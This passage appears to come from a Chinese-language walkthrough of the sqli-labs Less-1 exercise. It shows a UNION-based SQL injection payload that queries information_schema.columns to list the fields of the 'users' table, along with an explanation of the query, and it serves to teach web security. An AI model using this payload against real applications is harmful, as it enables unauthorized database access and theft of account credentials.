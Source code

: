 ![Less-1_17](./img/Less-1_17.png)



5. 注入<code>?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+</code>爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来想得到该表下的字段名以及内容。

~~~ shell
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+

该语句意思是查询information_schema数据库下的columns表里table_name字段是users的所有column_name内容。注意table_name字段不是只存在于tables表也存在于columns表中;其实是表示所有字段对应的表名;
~~~

![Less-1_23](./img/Less-1_23.png)
